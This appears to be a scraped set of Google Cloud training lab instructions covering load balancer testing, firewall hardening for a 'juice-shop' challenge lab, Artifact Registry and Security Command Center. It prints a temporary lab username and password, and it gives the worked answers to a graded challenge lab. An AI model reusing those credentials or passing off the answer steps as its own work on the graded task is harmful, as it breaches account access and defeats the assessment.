Property Value (type value or select option as specified) Name my-ilb-ip Static IP address Let me choose Custom IP address 10.10.30.5 Click Reserve.
In Port number, type
80.Click Done .
Review and create the Internal Load Balancer
Click on Review and finalize.
Review the Backend and Frontend.
Click on Create. Wait for the Load Balancer to be created, before moving to the next task.
Click Check my progress to verify the objective.
Configure the Internal Load Balancer
Check my progress
Task 4. Test the Internal Load Balancer
Verify that the my-ilb IP address forwards traffic to instance-group-1 and instance-group-2.
Access the Internal Load Balancer
In the Cloud Console, navigate to Navigation menu > Compute Engine > VM instances.
For utility-vm, click SSH to launch a terminal and connect.
To verify that the Internal Load Balancer forwards traffic, run the following command:
xxxxxxxxxxcurl 10.10.30.5
Copied!
The output should look like this:
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-1-1zn8<h2>Server Location</h2>Region and Zone: us-central1-a
Note: As expected, traffic is forwarded from the Internal Load Balancer (10.10.30.5) to the backend.
Run the same command a couple more times.
In the output, you should be able to see responses from instance-group-1 in Zone and instance-group-2 in the different zone of same region.
Congratulations!
In this lab you created two managed instance groups in the REGION region, along with firewall rules to allow HTTP traffic to those instances and TCP traffic from the Google Cloud health checker. Then, you configured and tested an Internal Load Balancer for those instance groups.
LAB - Build a Secure Google Cloud Network: Challenge Lab
Introduction
In a challenge lab you’re given a scenario and a set of tasks. Instead of following step-by-step instructions, you will use the skills learned from the labs in the course to figure out how to complete the tasks on your own! An automated scoring system (shown on this page) will provide feedback on whether you have completed your tasks correctly.
When you take a challenge lab, you will not be taught new Google Cloud concepts. You are expected to extend your learned skills, like changing default values and reading and researching error messages to fix your own mistakes.
To score 100% you must successfully complete all tasks within the time period!
This lab is recommended for students who have enrolled in the Build a Secure Google Cloud Network skill badge. Are you ready for the challenge?
Setup
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
Challenge scenario
You are a security consultant brought in by Jeff, who owns a small local company, to help him with his very successful website (juice-shop). Jeff is new to Google Cloud and had his neighbour's son set up the initial site. The neighbour's son has since had to leave for college, but before leaving, he made sure the site was running.
Below is the current set up:
Your challenge
You need to create the appropriate security configuration for Jeff's site. Your first challenge is to set up firewall rules and virtual machine tags. You also need to ensure that SSH is only available to the bastion via IAP.
For the firewall rules, make sure that:
The bastion host does not have a public IP address.
You can only SSH to the bastion and only via IAP.
You can only SSH to
juice-shopvia the bastion.Only HTTP is open to the world for
juice-shop.
Tips and tricks:
Pay close attention to the network tags and the associated VPC firewall rules.
Be specific and limit the size of the VPC firewall rule source ranges.
Overly permissive permissions will not be marked correct.

Suggested order of action.
Check the firewall rules. Remove the overly permissive rules.
Remove the overly permissive rules
Go to VPC network > Firewall > will see open-access
Use the following command from the cloud console:
xxxxxxxxxxgcloud compute firewall-rules delete open-access
Check my progress
Navigate to Compute Engine in the Cloud console and identify the bastion host. The instance should be stopped. Start the instance.
Start the bastion host instance
Go to Compute Engine > VM Instances > Select bastion > click on Start
Check my progress
The bastion host is the one machine authorized to receive external SSH traffic. Create a firewall rule that allows SSH (tcp/22) from the IAP service. The firewall rule must be enabled for the bastion host instance using a network tag of
accept-ssh-iap-ingress-ql-744.
Create a firewall rule that allows SSH (tcp/22) from the IAP service and add network tag on bastion
Run the following:
Make sure you replace with the tag provided on the Left Pane.
xxxxxxxxxxgcloud compute firewall-rules create SSH-IAP-FW --allow=tcp:22 --source-ranges 35.235.240.0/20 --target-tags accept-ssh-iap-ingress-ql-744 --network acme-vpcgcloud compute instances add-tags bastion --tags=accept-ssh-iap-ingress-ql-744 --zone=us-central1-c
Check my progress
The
juice-shopserver serves HTTP traffic. Create a firewall rule that allows traffic on HTTP (tcp/80) to any address. The firewall rule must be enabled for the juice-shop instance using a network tag ofaccept-http-ingress-ql-744.
Create a firewall rule that allows traffic on HTTP (tcp/80) to any address and add network tag on juice-shop
Run the following:
Make sure you replace with the tag provided on the Left Pane.
xxxxxxxxxxgcloud compute firewall-rules create allow-http --allow=tcp:80 --source-ranges 0.0.0.0/0 --target-tags accept-http-ingress-ql-744 --network acme-vpcgcloud compute instances add-tags juice-shop --tags=accept-http-ingress-ql-744 --zone=us-central1-c
Check my progress
You need to connect to
juice-shopfrom the bastion using SSH. Create a firewall rule that allows traffic on SSH (tcp/22) fromacme-mgmt-subnetnetwork address. The firewall rule must be enabled for thejuice-shopinstance using a network tag of ``.
Create a firewall rule that allows traffic on SSH (tcp/22) from acme-mgmt-subnet
Run the following:
Make sure you replace with the tag provided on the Left Pane.
xxxxxxxxxxgcloud compute firewall-rules create ssh-internal --allow=tcp:22 --source-ranges 192.168.10.0/24 --target-tags accept-ssh-internal-ingress-ql-744 --network acme-vpcgcloud compute instances add-tags juice-shop --tags=accept-ssh-internal-ingress-ql-744 --zone=us-central1-c
Check my progress
In the Compute Engine instances page, click the SSH button for the bastion host. Once connected, SSH to
juice-shop.
Hint: If you're having difficulties with the compute ssh connection or IAP tunnel, make use of the --troubleshoot flag.
SSH to bastion host via IAP and juice-shop via bastion
Go to Compute Engine > VM instances > SSH to bastion host
Run the following:
xxxxxxxxxxssh <internalstudent-03-deb996e41e56@bastion:~$ ssh 192.168.11.2The authenticity of host '192.168.11.2 (192.168.11.2)' can't be established.ECDSA key fingerprint is SHA256:blNVdiCDyB+qVttS+NjLqat8AopajkcyF7Yg3OX1GSA.Are you sure you want to continue connecting (yes/no/[fingerprint])? yesWarning: Permanently added '192.168.11.2' (ECDSA) to the list of known hosts.Linux juice-shop 5.10.0-33-cloud-amd64 #1 SMP Debian 5.10.226-1 (2024-10-03) x86_64The programs included with the Debian GNU/Linux system are free software;the exact distribution terms for each program are described in theindividual files in /usr/share/doc/*/copyright.Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extentpermitted by applicable law.Creating directory '/home/student-03-deb996e41e56'.student-03-deb996e41e56@juice-shop:~$ IP of the juice-shop>
Check my progress
Congratulations!
You've completed the challenge lab and helped Jeff tighten security.
17 - Using DevSecOps in your Google Cloud Environment
LAB - Working with Artifact Registry
Overview
As the evolution of Container Registry, Artifact Registry is a single place for your organization to manage container images and language packages (such as Maven and npm). It is fully integrated with Google Cloud's tooling and runtimes and comes with support for native artifact protocols. This makes it simple to integrate it with your CI/CD tooling to set up automated pipelines.
In this lab you will learn about some of the features available in Artifact Registry.
Objectives
In this lab, you learn how to:
Create repositories for Containers and Language Packages
Manage container images with Artifact Registry
Integrate Artifact Registry with Cloud Code
Configure Maven to use Artifact Registry for Java Dependencies
Setup and requirement
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-4d9ed7863142@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxnPhedPImkx6CCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-04-21a41c4e5c02. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-04-21a41c4e5c02
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-4d9ed7863142@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-04-21a41c4e5c02
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
You must wait for the lab to provision before making any changes to the environment! The pre-configured parts of the environment that you need to work with will be available to you as soon as the lab indicates it is ready.
Task 1. Prepare the lab environment
Set up variables
In Cloud Shell, set your project ID and project number. Save them as
PROJECT_IDandPROJECT_NUMBERvariables:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project)export PROJECT_NUMBER=$(gcloud projects describe $PROJECT_ID --format='value(projectNumber)')export REGION=us-east1gcloud config set compute/region $REGION
Copied!
Enable Google services
Run the following to enable necessary Google services:
xxxxxxxxxxgcloud services enable \cloudresourcemanager.googleapis.com \container.googleapis.com \artifactregistry.googleapis.com \containerregistry.googleapis.com \containerscanning.googleapis.com
Copied!
Get the source code
The source code for this lab is located in the GoogleCloudPlatform org on GitHub.
Clone the source code with the command below, then change into the directory.
xxxxxxxxxxgit clone https://github.com/GoogleCloudPlatform/cloud-code-samples/cd ~/cloud-code-samples
Copied!
Provision the infrastructure used in this lab
In this lab you will deploy code to Kubernetes Engine (GKE).
Run the setup script below to prepare this infrastructure:
xxxxxxxxxxgcloud container clusters create container-dev-cluster --zone=us-east1-b
Copied!
Click Check my progress to verify the objective.
Enable Google Services and create GKE cluster
Check my progress
Task 2. Working with container images
Create a Docker Repository on Artifact registry
Artifact Registry supports managing container images and language packages. Different artifact types require different specifications. For example, the requests for Maven dependencies are different from requests for Node dependencies.
To support the different API specifications, Artifact Registry needs to know what format you want the API responses to follow. To do this you will create a repository and pass in the --repository-format flag indicating the type of repository desired.
From Cloud Shell run the following command to create a repository for Docker images:
xxxxxxxxxxgcloud artifacts repositories create container-dev-repo --repository-format=docker \--location=$REGION \--description="Docker repository for Container Dev Workshop"
Copied!
Click Authorize if the Cloud Shell authorization prompt appears.
In the Cloud console, go to Artifact Registry > Repositories and notice your newly created Docker repository named
container-dev-repo. If you click on it you can see that it's empty at the moment.
Click Check my progress to verify the objective. (It may take a minute to validate. If you have completed successfully and it is not validating, wait a minute and try again.)
Working with container images
Check my progress
Configure Docker Authentication to Artifact Registry
When connecting to Artifact Registry credentials are required in order to provide access. Rather than set up separate credentials, Docker can be configured to use your gcloud credentials seamlessly.
From Cloud Shell run the following command to configure Docker to use the Google Cloud CLI to authenticate requests to Artifact Registry in the
us-east1region:
xxxxxxxxxxgcloud auth configure-docker us-east1-docker.pkg.dev
Copied!
The command will prompt for a confirmation to change the Cloud Shell docker configuration, click ENTER.
Explore the sample Application
A sample application is provided in the git repository you cloned.
Change into the java directory and review the application code:
xxxxxxxxxxcd ~/cloud-code-samples/java/java-hello-world
Copied!
The folder contains an example Java application that renders a simple web page: in addition to various files not relevant for this specific lab, it contains the source code, under the src folder, and a Dockerfile you will use to build a container image locally.
Build the Container Image
Before you can store container images in Artifact Registry you need to create one.
Run the following command to build the container image and tag it properly:
xxxxxxxxxxdocker build -t us-east1-docker.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-repo/java-hello-world:tag1 .
Copied!
Push the Container Image to Artifact Registry
Run the following command to push the container image to the repository you created:
xxxxxxxxxxdocker push us-east1-docker.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-repo/java-hello-world:tag1
Copied!
Review the image in Artifact Registry
In Artifact Registry > Repositories, click into
container-dev-repoand check that thejava-hello-worldimage is there.Click on the image and note the image tagged
tag1. You can see that Vulnerability Scanning is running or already completed and the number of vulnerabilities detected is visible.
Click on the number of vulnerabilities and you will see the list of vulnerabilities detected in the image, with the CVE bulletin name and the severity. Click VIEW on each listed vulnerability to get more details:
Task 3. Integration with Cloud Code
In this section you use the Artifact Registry Docker image repository with Cloud Code.
Deploy the Application to GKE Cluster from Cloud Code
From the
java-hello-worldfolder run the following command to open Cloud Shell Editor and add the application folder to this workspace:
xxxxxxxxxxcd ~/cloud-code-samples/cloudshell workspace .
Copied!
The Cloud Shell editor will open with the explorer in the application folder.
From the left menu, select Cloud Code and then expand the COMPUTE ENGINE option and click on Select a Project and choose the project ID provided in the Lab Instruction.
Also, expand the KUBERNETES option. You will be able to see the cluster loading.
Wait until you see the cluster listed under KUBERNETES as well as under COMPUTE ENGINE.
The following steps will require you to enter your Artifact Registry repository location. The format for the location is:
xxxxxxxxxxus-east1-docker.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-repo
Click Navigation menu under the Cloud Shell Editor
Choose cloud-code-samples/java/java-hello-world/skaffold.yaml and then dockerfile.
If Prompted for a context, select Yes to use the current context.
In the prompt for the image registry select Enter the address of an image repository and put the address location you located below and press Enter.
xxxxxxxxxxus-east1-docker.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-repo
Copied!
When you execute Run on Kubernetes for the first time Cloud Code prompts you for the target image repository location. Once provided, the repository url is stored in the file
.vscode/launch.jsonwhich is created in the application folder.
In the output pane you see that the build starts for the application image java-hello-world, the image is uploaded to the Artifact Registry repository configured previously.
In Artifact Registry > Repositories click into
container-dev-repoand check that thejava-hello-worldimage and note a new image taggedlatest.
Review the Deployed Application
Go back to Cloud Shell Editor. When deployment is complete Skaffold/Cloud Code will print the exposed url where the service have been forwarded, click on the link - Follow link:
In the new browser window you see the hello world app page.
Update application code
Now update the application to see the change implemented immediately in the deployment on the cluster:
Open the
HelloWorldController.javaby clicking on the Navigation menu under the Cloud Shell EditorHello...Change the text in row 20 from "It's running!" to "It's updated!". You should see the build and deployment process starting immediately.
At the end of the deploy click again on the forwarded url or refresh the browser window with the application to see your change deployed:
In the Cloud console go to Navigation Menu > Artifact Registry > Repositories and click into
container-dev-repoto check that thejava-hello-worldimage and note the new image.
Click Check my progress to verify the objective.
Integration with Cloud Code
Check my progress
Task 4. Working with language packages
In this section you will set up an Artifact Registry Java repository and upload packages to it, leveraging them in different applications.
Create a Java package repository
From Cloud Shell run the following command to create a repository for Java artifacts:
xxxxxxxxxxgcloud artifacts repositories create container-dev-java-repo \--repository-format=maven \--location=us-east1 \--description="Java package repository for Container Dev Workshop"
Copied!
Click Authorize if the Cloud Shell authorization prompt appears
In the Cloud console go to Artifact Registry > Repositories and notice your newly created Maven repository named
container-dev-java-repo, if you click on it you can see that it's empty at the moment.
Click Check my progress to verify the objective.
Create a Java package repository
Check my progress
Set up authentication to Artifact Repository
Use the following command to update the well-known location for Application Default Credentials (ADC) with your user account credentials so that the Artifact Registry credential helper can authenticate using them when connecting with repositories:
xxxxxxxxxxgcloud auth login --update-adc
Copied!
If prompted to authenticate:
Choose Y.
Paste the code into a browser window.
Select Google Sign In and sign in using the credentials in the lab.
Copy the authentication code from the browser back into the console to complete the authentication.
Configure Maven for Artifact Registry
Run the following command to print the repository configuration to add to your Java project:
xxxxxxxxxxgcloud artifacts print-settings mvn \--repository=container-dev-java-repo \--location=us-east1
Copied!
Open the
pom.xmlin Cloud Shell Editor and add the returned settings to the appropriate sections in the file:
Add the distributionManagement section.
xxxxxxxxxx<distributionManagement><snapshotRepository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url></snapshotRepository><repository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url></repository></distributionManagement>
Copied!
Add the repositories section.
xxxxxxxxxx<repositories><repository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url><releases><enabled>true</enabled></releases><snapshots><enabled>true</enabled></snapshots></repository></repositories>
Copied!
Update the extensions in the Builds section.
xxxxxxxxxx<extensions><extension><groupId>com.google.cloud.artifactregistry</groupId><artifactId>artifactregistry-maven-wagon</artifactId><version>2.1.0</version></extension></extensions>
Copied!
Here's an example of the complete file for your reference.
xxxxxxxxxx<?xml version="1.0" encoding="UTF-8"?><project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd"><modelVersion>4.0.0</modelVersion><artifactId>hello-world</artifactId><packaging>jar</packaging><name>Cloud Code Hello World</name><description>Getting started with Cloud Code</description><version>1.0.0</version><distributionManagement><snapshotRepository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url></snapshotRepository><repository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url></repository></distributionManagement><repositories><repository><id>artifact-registry</id><url>artifactregistry://us-east1-maven.pkg.dev/qwiklabs-gcp-04-21a41c4e5c02/container-dev-java-repo</url><releases><enabled>true</enabled></releases><snapshots><enabled>true</enabled></snapshots></repository></repositories><parent><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-parent</artifactId><version>2.6.3</version></parent><properties><java.version>1.8</java.version><checkstyle.config.location>./checkstyle.xml</checkstyle.config.location></properties><build><plugins><plugin><groupId>com.google.cloud.tools</groupId><artifactId>jib-maven-plugin</artifactId><version>3.2.0</version></plugin><plugin><groupId>org.springframework.boot</groupId><artifactId>spring-boot-maven-plugin</artifactId></plugin><plugin><groupId>org.apache.maven.plugins</groupId><artifactId>maven-checkstyle-plugin</artifactId><version>3.1.2</version></plugin></plugins><extensions><extension><groupId>com.google.cloud.artifactregistry</groupId><artifactId>artifactregistry-maven-wagon</artifactId><version>2.1.0</version></extension></extensions></build><!-- The Spring Cloud GCP BOM will manage spring-cloud-gcp version numbers for you. --><dependencyManagement><dependencies><dependency><groupId>org.springframework.cloud</groupId><artifactId>spring-cloud-gcp-dependencies</artifactId><version>1.2.8.RELEASE</version><type>pom</type><scope>import</scope></dependency></dependencies></dependencyManagement><dependencies><dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter</artifactId></dependency><dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-jetty</artifactId></dependency><dependency><groupId>org.springframework</groupId><artifactId>spring-webmvc</artifactId></dependency><dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-thymeleaf</artifactId></dependency><dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-test</artifactId><scope>test</scope></dependency><dependency><groupId>org.springframework.cloud</groupId><artifactId>spring-cloud-gcp-starter-logging</artifactId></dependency></dependencies></project>
Copied!
Upload your Java package to Artifact Registry
With Artifact Registry configured in Maven, you can now use Artifact Registry to store Java Jars for use by other projects in your organization.
Enter the below command to change to
java-hello-worldfolder.
xxxxxxxxxxcd ~/cloud-code-samples/java/java-hello-world
Copied!
Run the following command to upload your Java package to Artifact Registry:
xxxxxxxxxxmvn deploy
Copied!
Check the Java package in Artifact Registry
In the Cloud console go to Artifact Registry > Repositories and click into container-dev-java-repo to check that the hello-world binary artifact is there:
Congratulations!
In this lab you learned about some of the features available in Artifact Registry. You first created repositories for containers and language packages. You then managed container images with Artifact Registry and integrated it with Cloud Code. Finally, you configured Maven to use Artifact Registry for Java dependencies. You now have a solid understanding of features available in Artifact Registry.
19- Mitigate Threats and Vulnerabilities with Security Command Center
LAB - Get Started with Security Command Center
Overview
Security Command Center (SCC) is a security monitoring platform that helps users accomplish the following:
Discover security-related misconfigurations of Google Cloud resources.
Report on active threats in Google Cloud environments.
Fix vulnerabilities across Google Cloud assets.
In this lab, you take your first steps with Security Command Center by exploring the service's interface, configurations, and vulnerability findings.
Objectives
In this lab, you learn how to perform the following tasks:
Explore SCC interface elements.
Configure SCC settings at the project level.
Analyze and fix SCC vulnerability findings.
Prerequisites
It is recommended, but not required, that you are familiar with the following before starting this lab:
Cloud computing concepts.
The Google Cloud console.
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-4d9ed7863142@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxnPhedPImkx6CCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-03-dc5d137c89b1. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-03-dc5d137c89b1
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-4d9ed7863142@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-03-dc5d137c89b1
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Scenario
Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
Cymbal Bank is interested in integrating a centralized security monitoring platform to help monitor threats and remediate vulnerabilities across their Google Cloud resources in their corporate banking applications. As a Cloud Security Engineer, you are tasked with learning about Security Command Center's cutting-edge features so you can deliver a presentation to the CTO on the services' benefits.
Task 1. Explore SCC interface elements
In this task, you explore the Security Command Center (SCC) interface to learn about the service's chief features.
In the Cloud console, on the Navigation menu (
Note: If you receive a message informing you that you need to "Create an Organization", simply refresh the browser.
On the Risk overview page, scroll down and investigate the information panels that refer to New threats over time and Vulnerabilities per resource type.
Threats and vulnerabilities are two different types of finding classes, which SCC uses to categorize and report security issues in your environment. Refer to the Finding classes documentation to learn more about finding classes.
Threats notify Google Cloud users about current suspicious activities happening in their Google Cloud environments, such as a service account investigating its own permissions.
Vulnerabilities provide information on misconfigurations or vulnerabilities of resources, such as an open TCP port or an outdated library running on a virtual machine.
A finding is a record generated by SCC, which provides details on vulnerability or threat data in the Security Command Center dashboard.
On the New threats over time card, click the Findings by resource type tab.
This card enumerates currently active threats that have happened in your project during the period of time determined by the "Time range" dropdown on the right side of this information panel.
Note: In this lab instance, the number of threats are zero because you are in a sandbox Google Cloud project that has never been attacked before. You explore how to protect yourself from threats in another lab, Detect and Investigate Threats with Security Command Center.
By default, the time range dropdown shows all threats that appeared during the last 7 days, but you can view all threats that happened during the last 180 days.
From the Time range selector, select Last 180 days.
Scroll down to the Vulnerabilities per resource type card.
There should be around 80 active vulnerabilities listed.
A majority of these findings are generated because you are using a default VPC network, which is insecure by design, for the purposes of this lab. For example, it contains firewall rules that allow SSH and RDP access from any IP address.
Now scroll down to the Active vulnerabilities card.
If it isn't selected by default, click the Findings by category tab.
This shows your environment's vulnerabilities organized by different categories of vulnerabilities and their severity. The severity is a property of the finding that helps to estimate the potential risk that an issue poses to the Google Cloud environment.
The level of severity cannot be changed—each type of finding has a severity level that is predetermined by SCC. Below is a list of the different types of severities and common examples:
Critical - For example, a Reverse Shell session launched from inside of a GKE Pod.
High - For example, an SSH port opened to the entire Internet (0.0.0.0/0);
Medium - For example, one of primitive IAM roles (Owner/Editor/Viewer) has been granted to a user or a service account.
Low - For example, no VPC Flow logs are collected.
Unspecified - Can appear in SCC, but is not common.
Detailed criteria for how SCC sets a finding's severity are described on the Finding severities page.
Note: Take notice that the findings about open RDP and SSH ports have high severity levels.
Now click the Findings by resource type tab. This shows vulnerabilities categorized by the different types of Google Cloud resources that are available.
Note: This project has a default VPC Network, so most findings here are related to network components such as firewall, network or subnetwork.
Finally, click the Findings by project tab. This tab is intended for use with SCC on the level of a folder or organization root node.
Note: In our lab we have access only to one project, so this tab contains only the name of the current project.
From the Security portal, which you access if you select Security from the Navigation menu (
| SCC section | Description |
|---|---|
| Risk Overview | Shows your environment's vulnerabilities organized by different categories of vulnerabilities and severity. |
| Threats | Gives you a quick overview of findings that are classified as threats in SCC. Some examples could be a successful attempt of a Brute Force: SSH attack, cryptomining software running on compute resources, i.e. the Execution: Cryptocurrency Mining YARA Rule, and a Reverse Shell session that was launched from inside a GKE container. |
| Vulnerabilities | Gives you a quick overview of all misconfigurations or flaws in software that might exist in the current scope (whether that be inside your project, folder, or organization). This gives you more fine-grained access to the vulnerabilities, allowing you to drill down into each one. Some examples of vulnerabilities are an Open MySQL port that is open to the whole Internet, an instance of Primitive roles used e.g. Owner/Editor/Viewer role assigned to a user or a Service Account, and a web-page or a web-application vulnerable to XSS attacks. |
| Compliance | Shows information about compatibility of your Project with the most important compliance standards such as CIS, PCI DSS, NIST 800-53 and others. |
| Assets | Includes asset information from Cloud Asset Inventory, which continuously monitors assets in your cloud environment. |
| Findings | Allows you to explore all findings available in the SCC database. |
| Sources | Details the software modules that analyze configuration of Google Cloud resources and monitor current activities by reading log files and checking currently running processes. |
| Posture Management | Lets you use the security posture service in the SCC. Refer to the Manage a security posture guide for more detail. |
What triggered the significant amount of findings in this project?
The project contains a default service accounts.
The project contains default VPC network.
All Google Cloud projects are insecure.
They were custom generated for this lab.
Submit
Task 2. Configure SCC settings at the project level
In this task, you explore how to configure SCC settings at the project level.
Click Settings in the top right corner of the Risk overview page.
Ensure you are on the Services tab.
This tab allows you to set up parameters of SCC's integrated services, which are also called sources ("the brains of SCC" that you explored in the previous task). For the purposes of this lab, the terms services and sources are interchangeable.
Services detect threats and vulnerabilities and provide information to SCC. Most of them are available only in the Premium edition of SCC, which is provisioned in this lab.
The following are built-in services that you can configure:
Security Health Analytics (SHA)—Finds and reports misconfigurations of resources (disabled logs, extra IAM permissions, publicly exposed services). This is what we have currently enabled in our project and what detected the 76 vulnerabilities in our project.
Web Security Scanner (WSS)—Scans publicly available web applications exposed via external IP addresses and checks for OWASP top 10 vulnerabilities.
